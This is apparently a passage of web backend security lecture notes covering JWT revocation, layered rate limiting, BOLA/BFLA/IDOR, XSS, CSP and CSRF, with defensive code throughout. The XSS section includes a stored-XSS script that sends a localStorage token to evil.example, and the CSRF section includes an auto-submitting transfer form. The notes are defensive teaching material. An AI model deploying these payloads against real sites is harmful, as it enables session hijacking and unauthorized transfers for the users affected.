

The big advantage: **no database or Redis lookup** per request — verification is pure computation, so horizontal scaling is easy.

#### Problem 1: revocation is hard

With sessions, logging someone out = delete the session row; the next request fails. With JWTs, the token lives on the client and stays valid until it expires — you can't reach into a browser and delete it. If a user reports "my account is compromised, log me out everywhere", a purely stateless system **cannot help**.

Community workarounds:

- **Token blacklist (denylist)**: store revoked token IDs (`jti`) in Redis/DB and reject them. (Note: this reintroduces server-side state.)
- **Short-lived access tokens + refresh tokens**:
  - **Access token**: short expiry (5–10 minutes), sent with every request.
  - **Refresh token**: longer expiry (1–7 days), used only to get new tokens.
  - When the access token expires, the server returns **401**; the client calls the refresh endpoint with the refresh token; the server validates it (and checks it's not revoked/expired) and issues a **new access token and a new refresh token** (rotation).
  - A stolen access token is only useful for minutes. Revoke the refresh token server-side to end the session.



#### Problem 2: the payload is readable

The payload is only **Base64(url)-encoded, not encrypted**. Paste it into any Base64 decoder and you see the JSON. You *can't modify* it without breaking the signature (try changing "John Doe" to "John Do" on jwt.io: "signature verification failed"), but anyone can *read* it.

> [!WARNING]
> Never put sensitive data (passwords, PII, internal secrets) in a JWT payload. Only store information that is harmless if exposed.

#### Problem 3: where to store it

- **localStorage**: most commonly used, but readable by any JavaScript → stolen by XSS. Not a good choice.
- **HttpOnly cookie**: protected from JS... but now you're back to cookie-based sessions anyway.
- **In memory**: lost on refresh; usually combined with a refresh token in an HttpOnly cookie.

#### Sessions vs JWT: the recommendation

| | Stateful sessions | Stateless JWT |
|---|---|---|
| Server storage | Session row in Redis/DB | None (just a signing secret) |
| Per-request cost | One lookup | Signature verification only |
| Revocation | Instant (delete row) | Hard (wait for expiry, or denylist) |
| "Log out all devices" | Trivial | Needs extra machinery |
| Data exposure | Client sees only an opaque ID | Payload readable by anyone |
| Horizontal scaling | Shared store (Redis) needed | Easy |

> [!IMPORTANT]
> **Default to stateful sessions.** They are simpler, revocation is straightforward, and they fit most SaaS products. Even with many servers, a shared Redis lets all of them authenticate requests. If you *do* use JWTs: short expiry (minutes to hours, not days), refresh tokens with server-side storage, and HttpOnly cookies — not localStorage. These workarounds feel like hacks compared to sessions.

### Rate limiting

Without rate limiting, an attacker can send thousands to billions of login attempts trying password combinations. Two bad outcomes:

1. They **find a match** and take over an account (online brute force).
2. The flood **overloads and crashes** your server (denial of service).

Rate limiting is mandatory: **strict** on auth endpoints (login, signup, password reset, OTP), more **generous** on general endpoints, plus a global limit. For authentication, use **multiple layers**:

#### Layer 1: per-IP limiting

E.g. max 10 login attempts per IP per minute. Stops simple automated attacks. Weaknesses:

- Many legitimate users can share one public IP (universities, offices, carrier NAT) → false positives.
- Attackers rotate IPs via **botnets, proxy networks, VPNs** → bypass.

#### Layer 2: per-account limiting / lockout

E.g. 5 failed attempts in 15 minutes locks the account (e.g. for 24 hours or until support/verification). Stops attacks that rotate IPs but target one account. Weakness: **password spraying** — try *one* common password (`12345`) across *many* accounts: one attempt on A, one on B... No single account hits its limit, and rotating IPs beats layer 1.

> [!WARNING]
> Hard account lockout can itself be abused: an attacker can deliberately lock out victims (a denial-of-service on specific users). Consider temporary lockouts, progressive delays, or CAPTCHA instead of permanent locks.

#### Layer 3: global limiting

Cap total (failed) login attempts system-wide, e.g. 100 per minute. A spraying campaign trips this threshold → raise an **alert**, flag the incident, block offending IPs, show **CAPTCHAs** to everyone to separate humans from bots.



| Layer | Stops | Bypassed by |
|---|---|---|
| Per-IP | Single-machine brute force | Botnets, proxies, rotating IPs |
| Per-account | Brute force on one account (even with rotating IPs) | Password spraying across accounts |
| Global | Large-scale spraying, credential stuffing | (Last resort — triggers alerts and CAPTCHA) |

```ts
// Express example (per-IP) with express-rate-limit
import rateLimit from "express-rate-limit";
const loginLimiter = rateLimit({ windowMs: 60_000, limit: 10, standardHeaders: true });
app.post("/auth/login", loginLimiter, loginHandler);
```

## Authorization vulnerabilities

Authentication answers **who** you are (which row in `users`). Authorization answers **what you may do**. Everybody knows the definitions; the vulnerabilities come from confusing them **in the implementation**.

### The false sense of security

Typical layered backend: **router → handler** (parse + validate) **→ service → repository**. An auth middleware (`requireAuth`) runs at the router for protected routes: it checks the session cookie (stateful) or the JWT in the `Authorization` header (stateless) and returns 401 if invalid. Maybe a permission middleware checks role/permissions (e.g. user has `read:books`).

The trap: once a request passes these checks, developers feel "this is a trusted user, they can access anything downstream". **Wrong.**

Example: a books page with a filter where you can pass book IDs. The frontend calls:

```http
GET /books?id=5 HTTP/1.1
Cookie: sid=...
```

Auth passes. `read:books` permission passes. The repository runs:

```sql
SELECT * FROM books WHERE id = 5;
```

But book 5 belongs to **another user**. The user had permission to read *books*, not *all books*. The query should have been scoped:

```sql
SELECT * FROM books WHERE id = $1 AND user_id = $2;  -- $2 = ctx.userId from auth middleware
```

The user ID extracted by the auth middleware is stored in the **request context** and must be used in the actual query.

### BOLA — Broken Object Level Authorization

BOLA is exactly this: the system checks authentication and coarse permissions at the routing layer but **not ownership of the specific object** at the data layer. It's #1 in the OWASP API Security Top 10.

Sounds harmless with books — but a scripted attacker iterates through every ID of **invoices**, payments, medical records: downloads every invoice, harvests every user's financial data, and (via update endpoints) tampers with amounts or account numbers.



**Fix:** carry authorization **all the way to the point of access** (repository). Fetch "invoice 5 **that belongs to (or is shared with) this user**", for reads **and** for updates, deletes and inserts.

```ts
// Repository: ownership is part of the query
async function getInvoice(ctx: Ctx, invoiceId: string) {
  const { rows } = await db.query(
    "SELECT * FROM invoices WHERE id = $1 AND user_id = $2",
    [invoiceId, ctx.userId],
  );
  if (rows.length === 0) throw new NotFoundError(); // 404, not 403
  return rows[0];
}

// Updates too
await db.query(
  "UPDATE invoices SET note = $1 WHERE id = $2 AND user_id = $3",
  [note, invoiceId, ctx.userId],
);
```

### 403 vs 404: don't leak existence

A well-meaning but leaky pattern:

```ts
const invoice = await db.findInvoice(id);
if (!invoice) return res.status(404).end();
if (invoice.userId !== ctx.userId) return res.status(403).end(); // leaks that it exists
```

Technically 403 is the "correct" status for "you're not allowed". But it **confirms the invoice exists**. The attacker usually only *guessed* ID 5. By looping over IDs (5, 17, 18...) and watching 403 vs 404, they **enumerate** which records exist — useful for follow-up attacks such as **social engineering** (tricking support staff: "I'm calling about invoice 17...").

Better: one scoped query (`WHERE id = $1 AND user_id = $2`). No rows → **404 Not Found**. The attacker can't distinguish "doesn't exist" from "exists but belongs to someone else".



> [!INTERVIEW]
> **"A user requests an invoice that belongs to someone else. 403 or 404?"** — Prefer 404. A 403 confirms the resource exists, enabling enumeration of valid IDs and follow-up attacks like social engineering. Scope the query by owner (`WHERE id = ? AND user_id = ?`) so a foreign resource is indistinguishable from a missing one. (403 is fine when the existence isn't secret — e.g. a member hitting an admin-only feature.)

### BFLA — Broken Function Level Authorization

BOLA is about restricting **data**; BFLA is about restricting **functions** — especially sensitive admin-only operations.

Example: `GET /admin/invoices` lists **all** invoices for support staff. Here you *can't* add `WHERE user_id = ...` — the admin legitimately needs everything (filters like "pending" are fine, but no ownership check). So this is not a BOLA issue.

The flawed "security": the admin panel lives at a URL that wasn't shared with anyone. Login is the same for members and admins; the only difference is knowing the URL. Any logged-in user who discovers the endpoint (from watching traffic, JS bundles, guessing `/admin`) can call it and get every invoice.

This is **security through obscurity** — hiding things and assuming nobody will find them, instead of real controls.



**Fix:** after authentication, also check the **role**. Both members and admins may hold `read:invoices`; the difference is the **role** (`member` vs `admin`). Add a role middleware to admin routes.

```ts
function requireRole(role: "admin" | "member") {
  return (req, res, next) => {
    if (req.ctx.user?.role !== role) return res.status(403).json({ error: "forbidden" });
    next();
  };
}
app.get("/admin/invoices", requireAuth, requirePermission("read:invoices"), requireRole("admin"), listAllInvoices);
```

### IDOR and predictable IDs

**IDOR (Insecure Direct Object Reference)** — essentially the same class as BOLA. A related aggravator: **sequential IDs** (`101, 102, 103`) exposed in URLs like `/invoices/102`. Predictable IDs reveal that `101`, `103`, `109` exist (and how many records you have), making enumeration trivial.

Mitigation: use **UUIDs** (random, URL-friendly) as public identifiers / primary keys. Caveat: random UUIDv4 primary keys have **performance costs** (bigger indexes, poor B-tree locality); time-ordered **UUIDv7** or a separate public ID column are common compromises.

> [!WARNING]
> UUIDs make guessing hard, but they are **not authorization**. IDs leak (shared links, logs, referrer headers). You still need the ownership check in the query.

### The mental model: horizontal vs vertical



| | Horizontal | Vertical |
|---|---|---|
| What happens | User A accesses user B's resources (same privilege level, wider scope) | User gains higher privilege (member performs admin actions) |
| Named vulnerabilities | BOLA, IDOR | BFLA, privilege escalation |
| Usual cause | Missing ownership check at the database level | Missing role check on sensitive functions |
| Fix | Scope every query by owner/tenant | Role/permission middleware on every sensitive route |

### Preventing authorization bugs: four rules

1. **Centralize authorization logic.** One clear authorization layer every request passes through, not checks scattered (and forgotten) across the codebase. Easier to understand, maintain, scale.
2. **Default deny.** If the logic doesn't **explicitly allow** something, deny it. New endpoints and resources are then protected even if someone forgets to configure them.
3. **Test authorization specifically — with automated tests in CI/CD.** Not just happy paths. Assert that user A **cannot** access user B's resources, members **cannot** call admin functions, unauthenticated users **cannot** reach anything protected. Manual testing misses regressions as the code changes.
4. **Audit logs.** Log every access to sensitive resources (admin endpoints: who, what, when). Log every **failed authorization check** as a security event — someone probing your system should be noticed and acted upon.

```ts
// Authorization regression test (Vitest + supertest)
it("user A cannot read user B's invoice", async () => {
  const res = await request(app).get(`/invoices/${invoiceOfB.id}`).set("Cookie", cookieOfA);
  expect(res.status).toBe(404);
});
it("member cannot list all invoices", async () => {
  const res = await request(app).get("/admin/invoices").set("Cookie", memberCookie);
  expect(res.status).toBe(403);
});
```

## Cross-Site Scripting (XSS)

XSS = an attacker gets **their JavaScript to execute in another user's browser, in the context of your site** (your origin).

### Why it's so dangerous

JavaScript running in your page's context can:

- **Read everything on the page**, including sensitive data.
- **Make API requests as the logged-in user** (the browser attaches their cookies), and read `localStorage` and non-HttpOnly cookies — exfiltrate tokens.
- **Redirect** the user to **phishing pages** to steal credentials.
- **Rewrite the page** to trick users (fake login forms, fake messages).

### Stored XSS

Scenario: a blogging platform with a comment/discussion board supporting **Markdown**. The client converts Markdown to HTML (in React land, libraries like **remark/rehype** with plugins) and injects that HTML into a DOM node so it renders:

```html
<ul><li>first point</li><li>second point</li></ul>
```

Now imagine a legacy or hand-rolled system: the client converts the markup and sends the HTML to the server; the server stores it as-is; later the server sends it to every viewer, whose client injects it into the DOM. An attacker finds a hole in the conversion and slips in:

```html

<script>fetch('https://evil.example/steal', { method: 'POST', body: localStorage.getItem('token') })</script>
```

It's stored in your database ("stored" XSS) and runs in the browser of **every user who views the comment**, sending their cookies/localStorage to an attacker-controlled server — enabling session hijacking — or redirecting them to phishing.



React makes the danger explicit: to render raw HTML you must use the prop `dangerouslySetInnerHTML` — the name warns that you're on your own regarding XSS.

```tsx
// Dangerous unless html is sanitized
<div dangerouslySetInnerHTML={{ __html: html }} />
```

Rendering user-provided markup sometimes *requires* injecting HTML — the vulnerability is doing it **without sanitization**. The server (and ideally the renderer) must **sanitize**: detect and strip dangerous constructs (`<script>`, event-handler attributes like `onerror`, `javascript:` URLs), keeping only an allowlist of safe tags.

```ts
import DOMPurify from "isomorphic-dompurify";
const safeHtml = DOMPurify.sanitize(untrustedHtml); // strips scripts, on* handlers, javascript: URLs
```

### Other XSS variants

| Type | Where the payload lives | Example |
|---|---|---|
| **Stored** | Persisted in your DB, served to many users | Malicious comment, profile bio |
| **Reflected** | In the request (URL/query string), echoed back in the response | `/search?q=<script>...</script>` rendered as "Results for ..." — victim is lured to click the link |
| **DOM-based** | Never touches the server; client JS writes untrusted data into the DOM | `el.innerHTML = location.hash.slice(1)` |

### Root cause and prevention

Same root cause as SQL injection: **user content treated as code instead of data** — but in the user's **browser** (HTML + JS context) instead of the database.

1. **Sanitize/validate** user-provided content in your validation layer before storing it; **escape on output** (framework templates and React's `{value}` interpolation escape by default).
2. Avoid raw HTML injection APIs (`innerHTML`, `dangerouslySetInnerHTML`, `v-html`) unless sanitized.
3. **HttpOnly** cookies so even a successful XSS can't read the session.
4. **Content Security Policy (CSP)** as a last line of defense.

> [!TIP]
> General rule from this chapter: every time you handle user-provided content — a search query, HTML, a huge image upload — be deliberate about how you handle it, what access you grant, and what resources you spend on it. That alone avoids most vulnerabilities.

### Content Security Policy (CSP)

CSP is an HTTP **response header** the server sends; the browser enforces it. It tells the browser exactly **which resources it may load/execute** and which to block:

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.example.com; img-src 'self' https://images.example.com; object-src 'none'; frame-ancestors 'none'
```

- Only run scripts from specific origins (your domain, a trusted CDN).
- **Disallow inline scripts** (no `'unsafe-inline'`) — the injected `<script>` and `onerror=` from the attack above are simply blocked.
- Restrict image, style, font, connect (fetch/XHR) sources; loading from an unlisted domain produces a CSP error.

> [!IMPORTANT]
> CSP is **not the prevention**; it's a **mitigation / last line of defense**. You must fix the root cause (sanitization, escaping) yourself. CSP catches what slips through the remote edge cases.

## Cross-Site Request Forgery (CSRF)

The speaker covers CSRF briefly because it's far less of a threat to modern apps built with modern frameworks and browser defaults — but it still exists in legacy systems.

### How it works

It exploits the fact that **browsers automatically attach cookies** for a site to requests made to that site — historically **even when the request is triggered by a different site**.

1. You're logged into `bank.com`; your browser holds its session cookie.
2. You visit `evil.com` (phishing link or normal browsing).
3. `evil.com` contains an auto-submitting form (or an `` tag / script) that sends a request to `bank.com/transfer`.
4. Your browser sends it **with your bank.com cookie**.
5. `bank.com` sees a valid session and executes the transfer.



```html
<!-- On evil.com -->
<form action="https://bank.com/transfer" method="POST" id="f">
  <input type="hidden" name="to" value="attacker" />
  <input type="hidden" name="amount" value="1000" />
</form>
<script>document.getElementById("f").submit()</script>
```

### Why it's mostly handled today

1. **SameSite cookies**: with `Strict`, or `Lax` (the default in modern browsers when no SameSite is set), the session cookie is **not sent** on the cross-site POST above. Unless you explicitly set `SameSite=None`, you're protected by default. (If frontend and backend are on different domains, use Lax rather than None where possible.)
2. **CORS** — *not* a security mechanism by itself, but the backend only sets `Access-Control-Allow-Origin` for its own frontend, so the browser blocks cross-origin JavaScript (e.g. `fetch` with JSON bodies, which needs a preflight) from reading responses or sending non-simple requests. Another (weak) line of defense.

> [!NOTE]
> Extra standard defenses (not discussed at length in the video): **anti-CSRF tokens** (a random token in the form/header that `evil.com` can't read), checking the `Origin`/`Referer` header, and never performing state changes on GET requests. Simple HTML form POSTs are *not* blocked by CORS, which is why SameSite and CSRF tokens matter.

| | XSS | CSRF |
|---|---|---|
| Attacker achieves | Runs JS **inside** your site in the victim's browser | Makes the victim's browser **send a request** to your site |
| Can read responses? | Yes | No (blind) |
| Exploits | Unsanitized user content | Automatic cookie attachment |
| Main defenses | Sanitize/escape, CSP, HttpOnly | SameSite cookies, CSRF tokens, Origin checks |

## Security misconfiguration

Many holes come not from logic bugs but from configuration.

### Secrets management

Secrets: API keys, database passwords, encryption keys, JWT signing secrets, auth secrets.

